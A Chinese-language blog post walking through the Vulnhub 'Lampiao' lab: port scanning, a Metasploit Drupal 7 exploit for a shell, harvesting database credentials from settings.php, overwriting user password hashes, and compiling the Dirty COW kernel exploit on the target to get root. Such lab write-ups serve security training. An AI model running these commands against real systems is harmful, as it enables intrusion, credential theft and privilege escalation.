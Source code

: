```yaml
---
layout: post
title: Lampiao
subtitle: Lampiao
date: 2023-07-11 17:52
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - Vulnhub
published: true
number headings: first-level 2, max 4, 1.1., auto
---
```


## 1. 信息搜集

IP 扫描，发现主机 `192.168.163.131`

![image.png](https://img.ghostliner.top/uOvsti.png)

端口扫描，发现三个端口

```shell
nmap -T4 -A -p- 192.168.163.131
```

![image.png](https://img.ghostliner.top/UiAH2o.png)

## 2. 渗透测试

访问 80 端口，未发现有效信息，目录扫描未发现其他目录

访问 1898 端口，发现网站，扫描目录，发现 robots.txt

查看文章，发现 url 格式 `http://192.168.163.131:1898/?q=node/2`，更改数字发现 3 个页面，发现两个音频文件和一个图片

`whatweb` 扫描网站框架，`Drupal 7`

![image.png](https://img.ghostliner.top/4irltv.png)

### 2.1. 反弹 shell

`msfconsole` 搜索相关漏洞

![image.png](https://img.ghostliner.top/aR9Xas.png)

使用编号为 1 的漏洞

```shell
use 1
options
set rhosts 192.168.163.131
set rport 1898
run
```

连接成功后，进入 shell

```shell
shell
python -c "import pty;pty.spawn('/bin/bash')"
```

搜索 Drupal 站点的配置文件

```shell
# 搜索配置文件
find . -name "setting*" -type f
# 搜索密码加密脚本
find . -name "pass*" -type f
```

搜索到 `./sites/default/settings.php` `./scripts/password-hash.sh`

查看 settings.php，发现数据库配置

```
'database' => 'drupal',
'username' => 'drupaluser',
'password' => 'Virgulino',
```

使用 `./scripts/password-hash.sh 123` 生成密码，用于更改用户密码

```
123:$S$DFn4g4WKRfqgHk28yFUea5g5jNoWb/iHXIPDz6BtI2dqdrw.UOmz
```

### 2.2. 连接数据库

```shell
mysql -u drupaluser -pVirgulino
```

```mysql
use drupal;
show tables;
select * from users\G;
# tiago $S$DNZ5o1k/NY7SUgtJvjPqNl40kHKwn4yXy2eroEnOAlpmT0TJ9Sx8
# Eder $S$Dv5orvhi7okjmViImnVPmVgfwJ2U..PNK4E9IT/k7Lqz9GZRb7tY
update users set pass='$S$DFn4g4WKRfqgHk28yFUea5g5jNoWb/iHXIPDz6BtI2dqdrw.UOmz' where uid=1 or uid=2;
```

登录网站。

使用数据库密码尝试登录用户：`tiago`

`ls -R /home` tiago 用户目录下无东西，尝试提权

```shell
sudo -l
# Sorry, user tiago may not run sudo on lampiao.
find / -exec "/bin/bash" -p \; -quit
```

### 2.3. 内核提权

查看内核版本

![image.png](https://img.ghostliner.top/82QdBK.png)

搜索脏牛漏洞 [CVE-2016-5195](https://nvd.nist.gov/vuln/detail/CVE-2016-5195)

```shell
searchsploit dirty
```

![image.png](https://img.ghostliner.top/PB6RWu.png)

使用 `40847.cpp`

```shell
# 复制到到当前目录
searchsploit -m 40847.cpp
# 传输到目标机
scp 40847.cpp tiago@192.168.163.131:~
```

```shell
# 在目标机上编译
g++ -O2 -std=c++11 -pthread -o 40847 40847.cpp -lutil
# 执行
./40847
# Root password is:   dirtyCowFun
```

![image.png](https://img.ghostliner.top/theoLU.png)

root 登录，获取 flag 文件

![image.png](https://img.ghostliner.top/RNpcqa.png)
